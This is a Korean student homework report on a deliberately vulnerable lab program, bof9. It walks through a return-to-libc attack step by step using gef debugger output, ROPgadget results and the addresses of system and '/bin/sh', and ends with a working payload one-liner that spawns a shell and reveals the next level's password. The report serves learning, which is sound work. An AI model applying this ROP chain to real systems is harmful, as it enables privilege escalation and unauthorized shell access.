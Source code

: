 # Report. HW8.

## RTL

"Return To Libc"의 약자이다. `RET` 영역을 원하는 **공유 라이브러리 함수의 주소**로 변경하여 이것을 호출하는 방식이다.


## `bof9`

<details><summary>bof9.c</summary>
  <p>

```c
// AFTER => bof8.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#define BUF_SIZE 8

// ASLR OFF
// STACK-PROTECTOR OFF
// STACK-EXECUTION OFF

char * binsh = "/bin/sh";

void vuln(void) {
    char buf[BUF_SIZE];

    if (setreuid(UID_BOF10, UID_BOF10)) {
        perror("setuid");
        exit(1);
    }
    if (setregid(UID_BOF10, UID_BOF10)) {
        perror("setgid");
        exit(1);
    }
    printf("system:%p\n", system);
    printf("binsh:%p\n", binsh);
    gets(buf);
    printf("Hello %s!\n", buf);
}

int main(void) {
    vuln();
    return 0;
}

```
</p></details>

`gets` 함수를 통해 입력을 받는다. 이전 수업내용이라면 여기에 쉘코드를 넣어서 권한을 얻을 수 있었겠지만, 이번엔 

## 1. `buf`와 `RET` 간의 거리 확인

`b vuln`으로 `vuln` 함수 시작지점에 breakpoint를 걸고 실행을 해 보았다. 디버깅 실행 시 `RET`, 그러니까 `$rsp`의 주소를 확인해 보니

    $rsp : 0x00007fffffffe4a8 > 0x00005555555552b7 > <main+13> mov eax, 0x0
  
으로... 그러니까 `0x00007fffffffe4a8`이 나온다.

쭉 진행해서 `buf`에 입력을 받는 부분까지 가서 `buf`의 주소값을 확인해 보았더니

    gets@plt (
        $rdi = 0x00007fffffffe498 > 0x0000555555555100 > <_start+0> endbr64 ,
        $rsi = 0x0000000000000001
    )

...에서 `$rdi` 값인 `0x00007fffffffe498`이 나왔다. `main`의 `$rsp`와 16 차이가 나는 것이다. 즉... **`gets` 입력에서 16개의 더미 문자를 주고 그 뒤에 `/bin/sh` 실행 코드를 넣어주면** 되는 거겠지?



## 2. `/bin/sh`, `system`, 그리고 `pop rdi ; ret`

### `pop rdi ; ret`

디버깅 모드로 `bof9`를 실행하고 `vmmap` 명령어를 사용해 보았다. `bof9`와 매핑된 메모리 정보를 보여준다.

    gef➤  vmmap
    [ Legend:  Code | Heap | Stack ]
    Start              End                Offset             Perm Path
    0x0000555555554000 0x0000555555555000 0x0000000000000000 r-- /home/bof9/bof9
    0x0000555555555000 0x0000555555556000 0x0000000000001000 r-x /home/bof9/bof9
    0x0000555555556000 0x0000555555557000 0x0000000000002000 r-- /home/bof9/bof9
    0x0000555555557000 0x0000555555558000 0x0000000000002000 r-- /home/bof9/bof9
    0x0000555555558000 0x0000555555559000 0x0000000000003000 rw- /home/bof9/bof9
    0x0000555555559000 0x000055555557a000 0x0000000000000000 rw- [heap]
    0x00007ffff7a0d000 0x00007ffff7bcd000 0x0000000000000000 r-x /tmp/2.23/lib/libc.so.6
    0x00007ffff7bcd000 0x00007ffff7dcd000 0x00000000001c0000 --- /tmp/2.23/lib/libc.so.6
    0x00007ffff7dcd000 0x00007ffff7dd1000 0x00000000001c0000 r-- /tmp/2.23/lib/libc.so.6
    0x00007ffff7dd1000 0x00007ffff7dd3000 0x00000000001c4000 rw- /tmp/2.23/lib/libc.so.6
    0x00007ffff7dd3000 0x00007ffff7dd7000 0x0000000000000000 rw-
    0x00007ffff7dd7000 0x00007ffff7dfd000 0x0000000000000000 r-x /tmp/2.23/lib/ld-linux-x86-64.so.2
    0x00007ffff7ff3000 0x00007ffff7ff6000 0x0000000000000000 rw-
    0x00007ffff7ff6000 0x00007ffff7ffa000 0x0000000000000000 r-- [vvar]
    0x00007ffff7ffa000 0x00007ffff7ffc000 0x0000000000000000 r-x [vdso]
    0x00007ffff7ffc000 0x00007ffff7ffd000 0x0000000000025000 r-- /tmp/2.23/lib/ld-linux-x86-64.so.2
    0x00007ffff7ffd000 0x00007ffff7ffe000 0x0000000000026000 rw- /tmp/2.23/lib/ld-linux-x86-64.so.2
    0x00007ffff7ffe000 0x00007ffff7fff000 0x0000000000000000 rw-
    0x00007ffffffde000 0x00007ffffffff000 0x0000000000000000 rw- [stack]
    0xffffffffff600000 0xffffffffff601000 0x0000000000000000 --x [vsyscall]

...으로 나오는데, *실행 가능한* libc 코드의 주소값이 `0x00007ffff7a0d000`으로 나온다.

그리고... `ROPgadget.py`를 통해 `pop rdi ; ret`가 `/tmp/2.23/lib/libc.so.6`에서 위치해 있는 곳을 찾아보자.

    gef➤  !ROPgadget.py --binary /tmp/2.23/lib/libc.so.6 | grep "pop rdi ; ret"
    0x0000000000067495 : add byte ptr [rax], al ; add cl, ch ; pop rdi ; ret 0xffff
    0x0000000000067497 : add cl, ch ; pop rdi ; ret 0xffff
    0x000000000019dba2 : or byte ptr [rdx + 0xb], cl ; pop rdi ; ret
    0x0000000000021102 : pop rdi ; ret
    0x0000000000067499 : pop rdi ; ret 0xffff
    0x0000000000001c26 : pop rdi ; retf 0x49f2
    0x0000000000132e45 : pop rdi ; retf 0xffee
    
순전히 `"pop rdi ; ret"`만 있는 곳은 `0x0000000000021102`이다. 그러니까... `/tmp/2.23/lib/libc.so.6`에서 `pop rdi ; ret` 명령어를 쓰려면 이 둘의 주소값을 더해줘야 하는 것이다. 그러니까... 주소 `0x00007ffff7a2e102`를 참조해야 저 명령어를 사용할 수가 있다.


### `"/bin/sh"`

`bof9` 디버깅 중인 `gef` 내에서 "/bin/sh"에 대한 내용을 찾아보았다.

    gef➤  search-pattern "/bin/sh"
    [+] Searching '/bin/sh' in memory
    [+] In '/home/bof9/bof9'(0x555555556000-0x555555557000), permission=r--
      0x555555556004 - 0x55555555600b  →   "/bin/sh"
    [+] In '/home/bof9/bof9'(0x555555557000-0x555555558000), permission=r--
      0x555555557004 - 0x55555555700b  →   "/bin/sh"
    [+] In '/tmp/2.23/lib/libc.so.6'(0x7ffff7a0d000-0x7ffff7bcd000), permission=r-x
      0x7ffff7b99d57 - 0x7ffff7b99d5e  →   "/bin/sh"

이 중 위 2개 - 프로그램을 실행하면 문자열 `"/bin/sh"`가 있는 주소값은 저 2개 중 위의 것으로 나온다 - 는 *`bof9`에서 `"/bin/sh"`이 위치해 있는* 곳에 대한 내용이다. 우리가 사용할 건 `libc` 안에 있는 `"/bin/sh"`이다. 그러니까... 맨 밑에 있는 `0x00007ffff7b99d57`을 써야 한다.


### `system`

`bof9` 디버깅 중인 `gef`에서 system을 `print` 해 보라 해 보자.

    gef➤  p system
    $3 = {<text variable, no debug info>} 0x7ffff7a52390 <system>
    
프로그램을 그냥 실행해도 `system`의 주소값으로 `0x00007ffff7a52390`이 나온다(`bof9`에서 `system`의 주소값을 출력해주기도 한다).


## 3. 섞기

위에서 알아낸 것들을 요약하면 다음과 같다:

- `system`이 위치해 있는 주소값 : `0x00007ffff7a52390`
- `libc` 안에 있는 `"/bin/sh"`의 주소값 : `0x00007ffff7b99d57`
- `libc` 영역에서 `pop rdi ; ret` 명령어를 참조하기 위한 주소값 : `/tmp/2.23/lib/libc.so.6` 주소값 `0x00007fff7a0d000` + `pop rdi ; ret` 가젯의 주소값 `0x0000000000021102` = `0x00007ffff7a2e102`

이들을 `RET`에 넣어주어야 한다. 우리 입장에서 넣어주는 순서는... **'`pop rdi ; ret` 기젯 주소값 - `"/bin/sh"` 주소값 - `system` 주소값** 순이다. 이걸 payload로 작성하면 다음과 같다:

    (python -c "print('a' * 16 + '\x02\xe1\xa2\xf7\xff\x7f\x00\x00' + '\x57\x9d\xb9\xf7\xff\x7f\x00\x00' + '\x90\x23\xa5\xf7\xff\x7f\x00\x00')"; cat) | ./bof9
    
이걸 넣어주어 `bof10`의 비멀번호를 알 수 있었다.


# -- END --


